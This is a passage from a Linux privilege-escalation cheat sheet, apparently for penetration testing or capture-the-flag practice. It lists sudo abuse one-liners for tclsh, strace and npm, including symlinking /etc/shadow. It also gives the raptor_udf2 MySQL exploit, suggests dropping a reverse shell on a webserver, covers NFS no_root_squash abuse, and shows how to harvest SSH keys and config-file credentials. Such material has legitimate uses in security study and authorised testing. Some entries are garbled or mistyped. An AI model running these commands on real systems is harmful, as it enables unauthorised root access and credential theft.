 | tclsh                                | sudo tclsh <br> exec /bin/sh <@stdin >@stdout 2>@stderr                              |
| strace                               |  Write and compile a a SUID SUID binary c++ program <br> strace chown root:root suid <br> strace chmod u+s suid <br> ./suid        |
| npm                                  |  ln -s /etc/shadow package.json && sudo /usr/bin/npm i *                            |
| rsync                                |                                                                                     |
| tar                                  |                                                                                     |
|Screen-4.5.00     | <https://www.exploit-db.com/exploits/41154/>        |

*Note:* You can find an incredible list of Linux binaries that can lead to privledge escalation at the [GTFOBins](https://gtfobins.github.io/) project website.

14. Can I access services that are running as root on the local network?

  ```shell
  netstat -antup
  ps -aux | grep root
  ```

| Network Services Running as Root      | Exploit actions                                                                     |
|---------------------------------------|-------------------------------------------------------------------------------------|
| mysql                                 | raptor_udf2 exploit <br> 0xdeadbeef.info/exploits/raptor_udf2.c <br> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));                   |
| apache            | drop a reverse shell script on to the webserver                                     |
| nfs             | no_root_squash parameter <br> Or <br> if you create the same user name and matching user id as the remote share you can gain access to the files and write new files to the share  |
| PostgreSQL                            | <https://www.exploit-db.com/exploits/45184/>                                          |

15. Are there any active tmux sessions we can connect to? `tmux ls`

#### What can we READ?

16. What files and folders are in my home user's directory? `ls -la ~`
17. Do any users have passwords stored in the passwd file? `cat /etc/passwd`
18. Are there passwords for other users or RSA keys for SSHing into the box? `ssh -i id_rsa root@10.10.10.10`
19. Are there configuration files that contain credentials?

| Application and config file           | Config File Contents                                                                |
|---------------------------------------|-------------------------------------------------------------------------------------|
| WolfCMS <br> config.php               | // Database settings: <br> define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306'); <br> define('DB_USER', 'root'); <br> define('DB_PASS', 'john@123');<br>        |
| Generic PHP Web App                   | define('DB_PASSWORD', 's3cret');                                                     |
| .ssh directory           | authorized_keys <br> id_rsa <br> id_rsa.keystore <br> id_rsa.pub <br> known_hosts            |
| User MySQL Info                 | .mysql_history <br> .my.cnf                     |
| User Bash History                  | .bash_history                                      |

20. Are any of the discovered credentials being reused by multiple acccounts?
  - `sudo - username`
  - `sudo -s`
21. Are there any Cron Jobs Running? `cat /etc/crontab`
22. What files have been modified most recently?
